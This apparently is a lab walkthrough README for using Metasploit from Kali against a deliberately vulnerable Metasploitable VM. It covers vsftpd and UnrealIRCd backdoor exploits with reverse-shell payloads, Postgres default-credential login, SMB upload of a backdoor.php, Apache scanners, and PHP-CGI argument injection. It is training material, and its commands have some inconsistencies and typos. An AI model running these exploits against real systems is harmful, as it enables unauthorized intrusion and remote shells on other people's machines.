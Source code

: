 ## Metasploit on the Linux Metasploitable2 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search vsftp`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/unix/ftp/vsftpd_234_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for vsftp are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `21`

Payload = In this example we used the following payload = `set payload cmd/unix/interact`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.

## Postgres

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search postgres`

2. Now lets use the auxiliary scanner for postgres

`use auxiliary/scanner/postgres/postgres_login`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set user_as_pass true`

`set username postgres`

`run` or `exploit`

3. The exploit was successful so you can now login to the system as the username and password with the same credentials by using the folloing sytax

`psql -h xxx.xxx.xxx.xxx -U postgres -W`

## Unreal IRC

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search unreal`

2. Now lets use the unreal exploit

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

## Samba FTP

`use auxiliary/admin/smb/upload_file`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 445`

`set rport_ftp 21`

`set smbshare public`

`set smbuser chewbacca`

`set lpath /tmp/backdoor.php`

`set rpath backdoor.php`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)

## Apache 2.2.8

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search apache`

2. Since we have so many Apache exploits lets use an Auxlilary scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_listing`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`run`

3. Since that was successful lets use an Auxlilary directory scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_scanner`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

4. Since that was successful lets use an Auxlilary file scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/files_dir`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

5. Since that was successful lets use the verbose authorization bypass to search for any potential exploits we can use.

`use auxiliary/scanner/http/verb_auth_bypass`

`show options`

`set rhosts xxx.xxx.xxx.xxx`

`run`

6. Since that was unsuccessful lets use the php_cgi injection exploit to search for any potential exploits we can use.

`use exploit/multi/http/php_cgi_arg_injection`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set lhost xxx.xxx.xxx.xxx`

`set lport 4444`

`run` or `exploit`
